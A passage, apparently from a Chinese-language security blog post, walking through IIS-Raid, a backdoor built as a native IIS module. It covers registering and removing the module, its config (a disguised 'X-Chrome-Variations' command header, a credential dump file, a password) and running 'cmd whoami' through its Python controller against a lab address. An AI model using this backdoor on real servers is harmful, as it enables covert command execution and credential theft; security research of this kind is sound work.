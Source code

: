 删除模块的命令如下：

```
C:\Windows\system32\inetsrv\APPCMD.EXE uninstall module test
```

#### (2)使用IIS Administration Tool进行界面操作

运行inetmgr.exe，进入IIS管理器

选择`Modules`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-2-1/2-2.png)

进入后选择`Configure Native Modules...`，接着选择`Register...`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-2-1/2-3.png)

填入Name和Path，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-2-1/2-4.png)

添加成功后，在Modules页面显示新添加的内容，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-2-1/2-5.png)

### 2.功能测试

IIS-Raid的配置文件保存在Functions.h中，包括以下内容：

```
#define COM_HEADER "X-Chrome-Variations"
#define PASS_FILE "C:\\Windows\\Temp\\creds.db"
#define PASSWORD "SIMPLEPASS"
```

COM_HEADER是用于执行后门与控制器之间的通信的标头名称

PASS_FILE是使用dump命令读取文件的位置

PASSWORD定义是将用于向后门进行身份验证的密码

#### (1)连接后门

命令如下：

```
python ./iis_controller.py  --url http://192.168.18.138/ --password SIMPLEPASS
```

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2020-2-1/3-1.png)

#### (2)测试功能

执行cmd命令：

```
cmd whoami
```
